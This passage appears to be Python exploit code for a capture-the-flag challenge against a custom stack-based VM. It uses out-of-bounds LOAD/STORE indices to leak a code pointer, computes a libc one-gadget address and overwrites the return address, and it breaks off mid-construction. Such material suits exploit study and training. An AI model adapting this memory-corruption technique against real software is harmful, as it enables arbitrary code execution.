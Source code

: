 ```python
    "PRINT"   : p32(14),  # print stack top
    "POP"     : p32(15),  # throw away top of stack
    "CALL"    : p32(16),  # call function at address with nargs,nlocals
    "RET"     : p32(17),  # return value from function
    "HALT"    : p32(18)
}

###################
#  Exploit Code   #
###################

code = b""

# Load stack-leak (code-pointer) onto fake-stack
code += o["LOAD"] 
code += pack("=i",-996)
code += o["LOAD"] 
code += pack("=i",-997)

# Add 0x218 to the lower-bytes part
code += o["ICONST"]
code += pack("=i",0x218) # 0x218 is the offset from code pointer to _start leak
code += o["IADD"]

code += o["STORE"]
code += pack("=i",-993)
code += o["STORE"]
code += pack("=i",-992)

# Actually reading the data now
code += o["GLOAD"]
code += p32(1)
code += o["GLOAD"]
code += p32(0)

# Calculating pos of one-gadget
code += o["ICONST"]
code += p32(0x270b3)
code += o["ISUB"]

code += o["ICONST"]
code += p32(0xe6c81)
code += o["IADD"]

# Loading code-pointer-values to stack (-40 = RET addr)
code += o["LOAD"] 
code += pack("=i",-996)
code += o["LOAD"] 
code += pack("=i",-997)

# Calculating location of ret
code += o["ICONST"]
code += pack("=i",40)
code += o["ISUB"]

 # Writing lower 4 bytes of ret-addr
code += o["STORE"]
code += pack("=i",-993)
code += o["STORE"]
code += pack("=i",-992)

# Writing one-gadget addr
code += o["GSTORE"]
```